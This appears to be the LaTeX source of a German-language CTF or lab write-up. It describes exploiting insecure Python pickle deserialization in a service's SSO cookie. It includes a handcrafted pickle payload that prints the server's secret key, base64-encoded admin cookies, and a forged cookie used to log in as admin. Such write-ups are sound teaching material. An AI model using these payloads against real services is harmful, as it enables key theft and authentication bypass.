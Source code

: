 \documentclass[12pt]{article}
\begin{document}
Wir haben erkannt, dass der Server erwartet, dass ein Objekt der Klasse EncDataHolder erwartet, daher haben wir folgenden zusammengesetzten Code verwendet (Listing \ref{ssofPrint}).
\begin{lstlisting}[caption={Vollständiger Code zur Ausgabe von \_\_KEY\_\_ mit Hilfe von print},label=ssofPrint]
c__builtin__
print
(ccommon.ssoData
__KEY__
tRccopy_reg
_reconstructor
p1
(ccommon.ssoData
EncDataHolder
p2
ccommon.ssoData
object
p3
NtRp4
(dp5
S'timestamp'
p6
F1306488912.4643281
sS'data'
p7
S'j\x86\xe6\x8fp\x94\x1bP'
p8
sb.
\end{lstlisting}
Über eine Kodierung mit base64 konnten wir ein Cookie (Listing \ref{ssoCookie}) erstellen, welches uns den geheimen Schlüssel im Browser vor der Fehlermeldung ausgibt (Abbildung \ref{ssoResult}).
\begin{lstlisting}[caption={Cookie mit print-Ausgabe},label=ssoCookie]
admin:Y19fYnVpbHRpbl9fCnByaW50CihjY29tbW9uLnNzb0RhdGEKX19
LRVlfXwp0UmNjb3B5X3JlZwpfcmVjb25zdHJ1Y3RvcgpwMQooY2NvbW
1vbi5zc29EYXRhCkVuY0RhdGFIb2xkZXIKcDIKY2NvbW1vbi5zc29EYXR
hCm9iamVjdApwMwpOdFJwNAooZHA1ClMndGltZXN0YW1wJwpwNgp
GMTMwNjQ4ODkxMi40NjQzMjgxCnNTJ2RhdGEnCnA3ClMnalx4ODZc
eGU2XHg4ZnBceDk0XHgxYlAnCnA4CnNiLg==
\end{lstlisting}
 \begin{figure}
  \begin{center}
    \includegraphics[scale=0.25]{images/ssoResult.png}
  \end{center}
  \caption{Ausgabe des Schlüssels im Browser}
  \label{ssoResult}
\end{figure}

Mit Hilfe der zuvor erlangten Artefakte konnte wir uns lokal ein EncDataHolder nachbauen und erstellten uns mit dem geheimen Schlüssel nun eine Instanz der Klasse EncDataHolder, welche wir dann mit cPickle serialisierten und als Cookie (Listing \ref{ssoCookie2} verwendeen. Dadurch konnten wir in den secureService als Admin eindringen. 
\begin{lstlisting}[caption={Cookie mit korrektem geheimen Schlüssel},label=ssoCookie2]
admin:Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAxCihjY29tbW9uLn
Nzb0RhdGEKRW5jRGF0YUhvbGRlcgpwMgpjX19idWlsdGluX18Kb2JqZW
N0CnAzCk50UnA0CihkcDUKUyd0aW1lc3RhbXAnCnA2CkYxMzA2NDk
3MjMxLjI4NTYzNjkKc1MnZGF0YScKcDcKUydfXHg5M1x4ODRceGE2XH
g4MEJceGVlKicKcDgKc2Iu
\end{lstlisting}
\end{document}
